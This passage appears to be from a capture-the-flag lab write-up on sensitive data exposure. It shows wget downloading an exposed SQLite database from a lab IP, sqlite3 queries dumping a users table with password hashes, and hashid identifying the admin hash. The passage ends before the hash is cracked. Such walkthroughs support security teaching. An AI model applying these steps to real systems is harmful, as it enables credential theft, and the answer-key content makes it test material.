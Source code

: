2. Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?

* [Index of /assets](http://10.10.45.163/assets/)

`webapp.db`

1. Use the supporting material to access the sensitive data. What is the password hash of the admin user?

```
wget http://10.10.45.163/assets/webapp.db

file webapp.db 
webapp.db: SQLite 3.x database, last written using SQLite version 3022000
```

```
sqlite3 webapp.db 

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
sessions  users
sqlite> 
```

```
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
```

```
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
```

`6eea9b7ef19179a06954edd0f6c05ceb`

2. Crack the hash. What is the admin's plaintext password?

```
hashid 6eea9b7ef19179a06954edd0f6c05ceb

Analyzing '6eea9b7ef19179a06954edd0f6c05ceb'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
```
